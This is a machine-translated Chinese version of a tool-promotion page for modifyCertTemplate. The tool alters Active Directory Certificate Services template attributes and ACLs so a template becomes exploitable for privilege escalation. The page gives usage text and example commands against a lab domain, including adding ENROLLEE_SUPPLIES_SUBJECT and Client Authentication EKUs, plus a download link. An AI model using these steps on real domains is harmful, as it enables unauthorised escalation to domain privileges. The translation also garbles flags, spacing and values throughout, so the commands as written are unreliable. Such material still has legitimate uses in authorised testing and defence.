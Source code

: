 # modifyCertTemplate : ADCS 证书模板修改和 ACL 枚举

> 原文：<https://kalilinuxtutorials.com/modifycerttemplate/>

[![](img//2dfde7945f63bb554c910a25e1a3a7ba.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEirCmk5JYxtV1wX_pUEMCtQzFGgJ53thGO6GKiOuDj_OF5bAB6YX1ToPXLNi_Wtgr7iVHSuawJ2RcOXXDe47Jtcsp814ncxOeXWqZP2u9C4D0286HG6dzUfRStnoz-eQu_uL1k98pH85GYPwYgYkJCuc8cPV5rR6IiVp1_eupWuyVla4JW-_Veipd0G/s728/modify%20(1).png)

**modifyCertTemplate** 工具旨在帮助操作员修改 ADCS 证书模板，以便可以利用创建的易受攻击状态进行权限提升(然后将模板重置为之前的状态)。这是专门为模板上的`**WriteProperty**`权限已经受损，但操作员不确定该权限适用于哪些属性的情况而设计的。在这个场景中，可以查询模板的 ACL，并且可以用属性 GUIDs 交叉引用适用的 ACE 信息，以确定可修改的属性。

## 使用

**用法:modifycerttemplate . py[-h]-template 模板名称[-property 属性名称] [-value 新值] [-get-acl] [-dn 可分辨名称] [-raw] [-add 标志名称][-debug]
[-hashes lm hash:n hash][-no-pass][-k][-AES key 十六进制密钥][-DC-IP IP IP 地址] [-ldaps]
目标
修改一个 Active Directory 证书模板的属性
位置参数:
目标 –帮助显示此帮助消息并退出
-模板模板名称
目标证书模板的名称
-属性属性名称
目标模板属性的名称
-值新值将指定模板属性设置为
的值-get-acl 打印证书的 ace
-dn 可分辨名称
显式设置证书模板的可分辨名称
-raw 输出原始证书模板属性
-添加标志名称将标志添加到属性， 维护现有标志
-debug 打开调试输出
认证:
-hashes lm hash:n hash
NTLM 哈希，格式为 lm hash:n hash
-no-pass 不要询问密码(对-k 有用)
-k 使用 Kerberos 认证。 根据目标参数从 ccache 文件(KRB5CCNAME)中获取凭据。如果找不到有效的凭证，
将使用命令行中指定的凭证
-aesKey hex key AES key 用于 Kerberos 身份验证(128 或 256 位)
连接:
-DC-ip IP IP 地址域控制器的 IP 地址。如果省略，它将使用目标参数
中指定的域部分(FQDN)——ldaps 使用 ldaps 而不是 LDAP**

# 例子

### 查询模板或属性值

查询证书模板(所有属性)

**python 3 modifycerttemplate . py-template Kerberos 认证 ez.lab/administrator:pass**

从证书模板中查询单个属性

**python 3 modifycerttemplate . py-template Kerberos authentication-property msPKI-Certificate-Name-Flag ez.lab/administrator:pass**

查询所有模板属性的原始值

**python 3 modifycerttemplate . py-template Kerberos authentication-raw ez.lab/administrator:pass**

### 查询 ACL 信息

在 ACL 中查询证书模板

**python 3 modifycerttemplate . py-template Kerberos authentication-get-ACL ez.lab/administrator:pass**

尽管与证书模板无关，但通过提供对象的可分辨名称，可以查询任何对象的 ACL

**python 3****modifycerttemplate . py-dn " CN = ws1，CN=computers，DC=ez，DC = lab "-get-ACL ez.lab/administrator:pass**

### 修改模板

将 **`ENROLLEE_SUPPLIES_SUBJECT`** 标志添加到模板的`**msPKI-Certificate-Name-Flag**`属性中

**python 3 modifycerttemplate . py-template Kerberos authentication-add enrolee _ supplies _ subject-property msPKI-Certificate-Name-Flag ez.lab/administrator:pass**

更新证书模板属性的值(非列表属性)

**python 3 modifycerttemplate . py-template Kerberos authentication-property msPKI-Certificate-Name-Flag-value-150994944 ez.lab/administrator:pass**

向`**pKIExtendedKeyUsage**`属性添加一个 EKU

**python 3 modifycerttemplate . py-template Kerberos authentication-添加“客户端认证”-属性 pKIExtendedKeyUsage ez.lab/administrator:pass**

更新列表格式属性的值(即明确设置`**pKIExtendedKeyUsage**`的值)

**python 3 modifycerttemplate . py-template Kerberos authentication-value " ' 1 . 3 . 6 . 1 . 5 . 5 . 7 . 3 . 4 '，' 1 . 3 . 6 . 1 . 5 . 5 . 7 . 3 . 2 ' "-property PKI extendedkey usage ez.lab/administrator:pass**

[**Download**](https://github.com/fortalice/modifyCertTemplate)